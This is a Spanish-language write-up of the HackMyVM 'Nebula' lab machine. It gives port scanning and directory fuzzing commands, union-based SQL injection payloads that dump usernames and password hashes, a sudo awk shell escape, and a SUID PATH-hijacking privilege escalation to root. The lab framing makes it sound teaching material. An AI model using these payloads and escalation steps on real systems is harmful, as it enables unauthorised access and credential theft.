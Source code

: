 ```yaml
---
layout: post
title: HackMyVM - Nebula
author: c4rta
date: 2024-01-11
tags: [HackMyVM, Union-Based SQL injection, PATH Hijacking]
image: /assets/img/nebula/nebula.png
---
```


## Enumeracion

Iniciamos con un escaneo de nmap donde encontraremos el puerto 22 y 80

```ruby
nmap -sS -n -Pn -T4 --open -p- 192.168.1.81
```

- sS: haga un TCP SYN Scan el cual hace un escaneo sigiloso sin completar las conexiones TCP, responde con un SYN/ACK si el puerto esta abierto

 - n: para que no haga resolucion DNS y tarde menos el escaneo

 - Pn: para evitar el descubrimiento de hosts

 - open: para que solo muestre los puertos abiertos

 - -p-: para que escanee todo el rango de puertos

```ruby
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Directory Fuzzing 

Haciendo uso de gobuster para enumerar directorios mediante fuerza bruta, nos encontramos con **img**, **login** y **joinus**

```ruby
gobuster dir -u http://192.168.1.81/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```

```ruby
/img                  (Status: 301) [Size: 310] [--> http://192.168.1.81/img/]
/login                (Status: 301) [Size: 312] [--> http://192.168.1.81/login/]
/joinus               (Status: 301) [Size: 313] [--> http://192.168.1.81/joinus/]
```

En el recurso **/joinus**  encontramos una seria de pasos para unirnos a "Nebula Labs":

![](/assets/img/nebula/1.png)

Si hacemos click en el hipervinculo **here** nos manda a la URL: **http://192.168.1.81/joinus/application_form.pdf**

Bajando un poco nos encontraremos unas credenciales filtradas:

![](/assets/img/nebula/2.png)

Si las probamos en el login anteriormente descubierto vamos a poder iniciar sesion como admin

Al darle click en el boton **Search Centrals** nos mandara a una pagina donde podremos buscar por ID

![](/assets/img/nebula/3_000.png)

Al ver la URL generada despues de hacer una busqueda, podrimos intentar una SQLi: **http://192.168.1.81/login/search_central.php?id=2**

## Union-Based SQL injection

**SQLi:** Vulnerabilidad que consiste en la inyeccion de consultas SQL maliciosas a travez de la entrada de un usuario a una base de datos con el fin de modificar el comportamiento de la consulta final

Vamos a probar un payload: **search_central.php?id=2' or 1=1-- -** y como resultado vamos a poder ver todos los datos de la tabla actual

![](/assets/img/nebula/4.png)

Una vez que tenemos una SQLi, es importante saber el numero de columnas, en este caso, se puede deducir que es 3 (id, role, username), sin embargo, la manera de hacerlo es haciendo uso de la sentencia **order by**: ' ORDER BY 3-- -, la cual hace un ordenamiento de los datos basandose en el numero que indiquemos. Sabremos el numero de columnas correcto cuando nos muestre los datos el encontrar el numero correcto, como se observa en la URL y en la tabla

![](/assets/img/nebula/5.png)

Ahora vamos a probar una inyeccion basada en union: **search_central.php?id=2' UNION SELECT 1,2,3-- -**. Sabremos que es una inyeccion union-based cuando los datos de la segunda consulta se muestran en el resultado, en este caso se muestran los numeros 1, 2, 3

![](/assets/img/nebula/6.png)

#### Enumerar bases de datos

    information_schema: es una base de datos que contiene informacion de otras bases de datos

Para enumerar bases de datos podemos usar **information_schema.schemata** e indicarle que queremos selecionar la columna **schema_name** que contiene el nombre de las bases de datos

```ruby
search_central.php?id=2' UNION SELECT schema_name, null, null FROM information_schema.schemata-- -
```

Podemos ver la base de datos **nebuladb**

![](/assets/img/nebula/7.png)

#### Enumerar tablas

    table_name: Contiene informacion de las tablas de la base de datos que se indique en table_schema (nombre de la DB)

Para enumerar tablas usaremos el siguiente payload que selecionara la columna  **table_name** de la base de datos que se indique en **table_schema**

```ruby
search_central.php?id=1'  UNION SELECT table_name, 2, 3 FROM information_schema.tables WHERE table_schema="nebuladb"-- -
```

Podemos ver las tablas

![](/assets/img/nebula/tablas.png)

#### Enumerar columnas

    column_name: Contiene informacion de las columnas de la tabla que se indique en "table_name" de la base de datos "table_schema"

Para enumerar las columnas selecionarmos la columna **column_name** de **information_schema.columns** y le indicaremos la base de datos **nebuladb** y la tabla **users**

```ruby
search_central.php?id=1' UNION SELECT column_name, 2, 3 FROM information_schema.columns WHERE table_schema="nebuladb" AND table_name="users"-- -
```

Podemos ver las columnas **username** y **password**

![](/assets/img/nebula/8.png)

#### Dumpear datos

Para seleccionar los datos de las tablas, es comun usar **CONCAT** para no sobrepasar el numero de columnas de la tabla que esta siendo usada. Pero en este caso podemos hacerlo directamente 

```ruby
' UNION SELECT CONCAT(username, password), 2, 3 FROM nebuladb.users-- -        CONCAT
```

```ruby
' UNION SELECT username, password, 3 FROM nebuladb.users-- -            NORMAL
```

Podemos ver los usuarios y sus hashes:

![](/assets/img/nebula/10.png)

Despues de probar los usuarios y contraseñas, podemos acceder via ssh como el usuario **pmccentral** y su contraseña (esta hasheada y es md5)

## pmccentral  -> laboratoryadmin (awk abuse)

Mirando los permisos a nivel de sudoers nos podemos dar cuenta que podemos ejecutar **awk** como **laboratoryadmin**, haciendo una busqueda rapida de GTFOBins, encontramos una forma de conseguir una shell ingresando el siguiente comando

```bash
sudo -u laboratoryadmin /usr/bin/awk 'BEGIN {system("/bin/bash")}'
```

## Escalada de privilegios (PATH hijacking)

Si miramos los permisos SUID, encontraremos el  archivo **PMCEmployees**

```bash
find / -perm -u=s -type f 2>/dev/null
```

```ruby
/home/laboratoryadmin/autoScripts/PMCEmployees
```

Si entramos el directorio **autoScripts** encontraremos un archivo llamado **head** que ejecuta **bash -p**

Si usamos el comando file veremos que **PMCEmployees** es un binario de 64 bits

```ruby
PMCEmployees: setuid ELF 64-bit
```

Usando **strings ./PMCEmployees** encontramos que se este ejecutando el comando **head** desde una ruta relativa:

```ruby
head /home/pmccentral/documents/employees.txt
```
Lo cual es un gran indicio de **PATH hijacking**

1. Primero crearemos el archivo **employees.txt**
2. Despues exportaremos la ruta acual al PATH: **export PATH=/home/laboratoryadmin/autoScripts:$PATH**
3. Y por ultimo ejecutamos el binario de nuevo y seremos root

![](/assets/img/nebula/11.png)

Eso ha sido todo, gracias por leer ❤